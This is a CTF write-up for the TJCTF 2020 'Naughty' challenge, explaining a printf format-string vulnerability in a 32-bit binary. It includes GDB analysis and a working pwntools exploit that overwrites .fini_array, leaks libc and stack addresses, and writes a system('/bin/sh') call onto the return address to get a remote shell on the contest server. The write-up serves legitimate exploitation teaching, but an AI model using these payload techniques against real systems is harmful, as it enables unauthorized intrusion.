



# TJCTF 2020

## Naughty

> 100
>
> Santa is getting old and can't tell everyone which list they are on anymore. Fortunately, one of his elves wrote a [service](naughty) to do it for him!
> 
> `nc p1.tjctf.org 8004`
>
> Written by KyleForkBomb

Tags: _pwn_ _x86-64_ _remote-shell_ _format-string_ _libc_ _write-what-where_ _dtors_


## Summary

Format string vulnerability where second pass is achieved by overwriting `.fini_array` (DTORS).

> detour: a long or roundabout route that is taken to avoid something or to visit somewhere along the way.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

GOT wide open.  Stack protection.  No shellcode.  No PIE--easy ROP.


### Decompile with Ghidra



The principal vulnerability is a missing `printf` _format string_ (line 37).  With this we can leak the stack and discover things like the address of libc, the base process address (no PIE, so no worries), the address of the stack, uninitialized variables, canaries, etc...

We can also write out arbitrary values to just about anywhere there's a RW segment--if you know where and what to write.

The problem is, there's only the one vulnerable `printf` at line 37.  There's no loop, no second chances.

My first thought was to repurpose the GOT, but that `printf` is _last call_.  Unless, I can cause a stack check fail with a buffer overflow, but lines 9 and 35 are not vulnerable.

I read the `printf` man page end-to-end.  Its been a while and it's a pretty dry read.

_think, goddamnit_

Finally I decided to go back to the source, the first place I read formally about format string vulnerabilities: [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf).

_nod nod nod yep yep yep uh-huh uh-huh uh-huh ... wait!_



> Now I've tried this path before but, IIRC, it was not an option because it was in a RO segment, again, IIRC.

Looking with Ghidra there is no `.dtors`, however there is a `.fini_array` (descendent of `.dtors`--the aforementioned paper is from 2001) and, well, see for yourself:



For a PoC, from within GDB, I just overwrote `.fini_array` with the address of `main` and when the program exited I scored a free ride.  The rest should be downhill from here.


### Discovery

I used an Ubuntu 18 container.  Ubuntu 18.04 was consistently used for the other (TJCTF) binary challenges.  At least for the machines I checked (when you get a flag, hangout for a while, poke around, see what you can see :-).

> I've been screwed in the past using 19 with hardcoded stack parameter offsets just to have the remote server fail.  Best to have a close match.

If you want to follow along, start up GDB, load up `naughty`, set a breakpoint for the last `printf` statement (`b *main+249`), run, and dump the stack:

> Output from GDB (with [GEF](https://gef.readthedocs.io/en/master/)), however I added the first column for illustration purposes.

```
    0xffffd570│+0x0000: 0xffffd58c  →  "blah\n"    ← $esp
01: 0xffffd574│+0x0004: 0x00000100
02: 0xffffd578│+0x0008: 0xf7faa5c0  →  0xfbad2288  <---------------- _IO_2_1_stdin_ (0xf7faa5c0)
03: 0xffffd57c│+0x000c: 0x08048550  →  <main+26> add ebx, 0x1754
04: 0xffffd580│+0x0010: 0xf7ddf438  →  0x00002dfe
05: 0xffffd584│+0x0014: 0x0000093c ("<\t"?)
06: 0xffffd588│+0x0018: 0xf7ddfcc8  →  0x72647800
07: 0xffffd58c│+0x001c: "blah\n"
08: 0xffffd590│+0x0020: 0xffff000a  →  0x00000000
09: 0xffffd594│+0x0024: 0xffffd5e0  →  0x00000000
10: 0xffffd598│+0x0028: 0x00000003
11: 0xffffd59c│+0x002c: 0x00000000
12: 0xffffd5a0│+0x0030: 0xf7ffd000  →  0x00026f34
13: 0xffffd5a4│+0x0034: 0xf7ddfcc8  →  0x72647800
14: 0xffffd5a8│+0x0038: 0xf7dd6012  →  0x15d5a529
15: 0xffffd5ac│+0x003c: 0xf7ddf438  →  0x00002dfe
16: 0xffffd5b0│+0x0040: 0xf63d4e2e
17: 0xffffd5b4│+0x0044: 0x0804829c  →  "__libc_start_main"
18: 0xffffd5b8│+0x0048: 0x07b1ea71
19: 0xffffd5bc│+0x004c: 0xffffd664  →  0xf7faa000  →  0x001d7d6c  <- stack address (0xffffd664)
20: 0xffffd5c0│+0x0050: 0xffffd5e4  →  0x00000000
```

The second parameter did not disappoint; `%2$p` holds the return the address of `_IO_2_1_stdin_`.  We have libc.

However, best to double check from GDB:

```
gef➤  disas 0xf7faa5c0
Dump of assembler code for function _IO_2_1_stdin_:
   0xf7faa5c0 <+0>:	mov    BYTE PTR [edx],ah
...   
```

Looking down stack at `%19$p` is an address relative to the stack (`0xffffd664`)--save this for later.

Next, overwrite `.fini_array` for a second pass at the format string vulnerability:

> With _No PIE_, the addresses will be static and can be obtained from Ghidra, `objdump`, etc... (see above).

```
gef➤  x/1wx 0x08049bac
0x8049bac:	0x8048500
gef➤  set {int}0x08049bac = main
gef➤  x/1wx 0x08049bac
0x8049bac:	0x8048536
```

Then `continue` and `ni` until you get to:

```
 →  0x8048656 <main+288>       ret
```

Checking the stack, the return address should be returning code execution to `_dl_fini_`:
 
```
0xffffd5cc│+0x0000: 0xf7fe5b9a  →  <_dl_fini+490> sub esi, 0x4 ← $esp
```

Using the leaked stack address (`%19$p`) and return address, compute the offset:

```
gef➤  print 0xffffd664 - 0xffffd5cc
$1 = 0x98
```

We have all the bits we need.

_Naughty list, here I come._


## Exploit

### Attack Plan

1. Gain a second pass while leaking libc and stack addresses
2. Get a shell, get the flag


### Gain a second pass while leaking libc and stack addresses

```python
#!/usr/bin/python3

from pwn import *

#p = process('./naughty')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = remote('p1.tjctf.org', 8004)
libc = ELF('libc-database/db/libc6-i386_2.27-3ubuntu1_amd64.so')

binary = ELF('./naughty')
fini_array = binary.get_section_by_name('.fini_array').header.sh_addr

### 1st pass
p.recvuntil('What is your name?')

payload  = b''
payload += b'%' + str((binary.symbols['main']) & 0xFFFF).rjust(6,'0').encode() + b'x'
payload += b'%14$hn  '
payload += b'%2$p'
payload += b' %19$p  '
payload += p32(fini_array)

p.sendline(payload)
```

From the stack output above (look for the 2nd `blah`), the format string starts at parameter 7.

The payload only has to overwrite the lower 16-bits of `.fini_array`.  Parameters 7 and 8 will instruct `printf` to emit `34102` (`binary.symbols['main']) & 0xFFFF`) bytes, while incrementing an internal `printf` counter, that will then be stored at the address from parameter 14 (the address to `.fini_array`).

> We have to be careful to keep our format string addresses aligned with the stack, hence some of the clumsy padding. It is also a good idea to put all the addresses at the end of the string in case they have nulls.  Also important to keep the `%n` strings first to make the math easier.  

Sandwiched in the middle is the leak for the libc and stack addresses.

This will create a payload that looks something like this:

```
%034102x%14$hn  %2$p %19$p  \xac\x9b\x04\x08
```

At the end of the `NAUGHTY LIST` output, collect the leaked libc and stack addresses, then use that to compute the base of libc and the return address needed to overwrite the stack in the second pass:

```
p.recvuntil('You are on the NAUGHTY LIST ')
_ = p.recvline().strip()[-27:]

_IO_2_1_stdin_ = int(_[:10],16)
print('_IO_2_1_stdin_',hex(_IO_2_1_stdin_))
baselibc = _IO_2_1_stdin_ - libc.symbols['_IO_2_1_stdin_']
print('baselibc',hex(baselibc))

offset = 0x98
return_address = int(_[11:21],16) - offset
print('return_address',hex(return_address))
```

However, the version of libc is unknown.  This can be solved by using the last three nibbles from `print('_IO_2_1_stdin_',hex(_IO_2_1_stdin_))` and searching the [libc-database](https://github.com/niklasb/libc-database):

```
# libc-database/find _IO_2_1_stdin_ 5c0 | grep 386
archive-old-glibc (id libc6-i386_2.26-0ubuntu2.1_amd64)
archive-old-glibc (id libc6-i386_2.26-0ubuntu2_amd64)
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6-i386_2.27-3ubuntu1_amd64.deb (id libc6-i386_2.27-3ubuntu1_amd64)
archive-old-glibc (id libc6-i386_2.28-0ubuntu1_amd64)
http://http.us.debian.org/debian/pool/main/g/glibc/libc6-i386_2.28-10_amd64.deb (id libc6-i386_2.28-10_amd64)
archive-old-glibc (id libc6-i386_2.29-0ubuntu2_amd64)
archive-old-glibc (id libc6_2.26-0ubuntu2.1_i386)
archive-old-glibc (id libc6_2.26-0ubuntu2_i386)
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_i386.deb (id libc6_2.27-3ubuntu1_i386)
archive-old-glibc (id libc6_2.28-0ubuntu1_i386)
http://http.us.debian.org/debian/pool/main/g/glibc/libc6_2.28-10_i386.deb (id libc6_2.28-10_i386)
archive-old-glibc (id libc6_2.29-0ubuntu2_i386)
```

That's a few more candidates than usual.  No worries, just test them one by one.  The 3rd down was a hit.  You can verify when computing the base of libc, it should end in `000`.  But, the real test will be if `system` also can be called.


### Get a shell, get the flag

```python
### 2nd pass
p.recvuntil('What is your name?')

binsh = baselibc + next(libc.search(b"/bin/sh"))
system = baselibc + libc.symbols['system']

words = {}
words[system & 0xFFFF] = return_address
words[system >> 16]    = return_address + 2
words[binsh & 0xFFFF]  = return_address + 8
words[binsh >> 16]     = return_address + 10

n=0; q=7+16; payload = b''
for i in sorted(words):
    payload += b'%' + str(i-n).rjust(6,'0').encode() + b'x'
    payload += b'%' + str(q).rjust(4,'0').encode() + b'$hn'
    n += (i-n)
    q += 1

for i in sorted(words):
    payload += p32(words[i])
```

With the return address stack location in hand, and the base of libc known, just construct a payload to call `system` with a pointer to `/bin/sh`.

> See [dorsia3](https://github.com/datajerk/ctf-write-ups/blob/master/wpictf2020/dorsia3/README.md) for a detail explanation of how this format string is constructed.

> Optionally `one_gadget` could probably be used, but the above is portable and a bit more surgical, IMHO.

Get a shell, get the flag:

```
p.sendline(payload)
p.recvline()
p.interactive()
```

Output:

```
# ./exploit.py
[+] Opening connection to p1.tjctf.org on port 8004: Done
[*] '/pwd/datajerk/tjctf2020/naughty/libc-database/db/libc6-i386_2.27-3ubuntu1_amd64.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/tjctf2020/naughty/naughty'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
_IO_2_1_stdin_ 0xf7fc05c0
baselibc 0xf7deb000
return_address 0xffd74a3c
[*] Switching to interactive mode
You are on the NAUGHTY LIST 00000[many, many zeros removed]00000$
$ cat flag.txt
tjctf{form4t_strin9s_ar3_on_th3_n1ce_li5t}
```
